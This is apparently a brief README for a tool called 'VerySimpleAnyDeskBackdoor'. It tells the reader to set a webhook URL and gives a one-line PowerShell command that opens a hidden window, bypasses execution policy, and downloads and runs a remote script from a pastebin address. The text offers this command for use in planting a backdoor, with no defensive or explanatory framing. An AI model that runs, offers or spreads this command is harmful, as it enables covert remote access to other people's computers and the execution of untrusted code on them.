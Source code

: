 # VerySimpleAnyDeskBackdoor

Don't forget to change the $webhookUrl parameter to your desire one.

Run this as a oneliner:

Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/wR5bkkut')"
